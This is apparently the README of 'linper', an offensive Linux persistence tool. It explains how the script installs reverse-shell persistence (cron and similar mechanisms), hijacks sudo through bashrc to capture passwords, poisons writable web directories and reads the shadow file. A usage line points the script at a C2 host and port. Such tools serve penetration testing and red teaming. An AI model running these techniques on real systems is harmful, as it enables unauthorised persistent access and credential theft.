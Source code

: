 # linper

Automated Linux Persistence Establishment

Automatically install multiple methods of persistence, or just enumerate possible methods.

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute on target
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script

## usage

Enumerate all persistence methods and install

`bash linper.sh --rhost myc2.host.domain --rport 4444`

Enumerate and do not install

`bash linper.sh -d`

## methodology

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is set
2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.
3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)
4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts
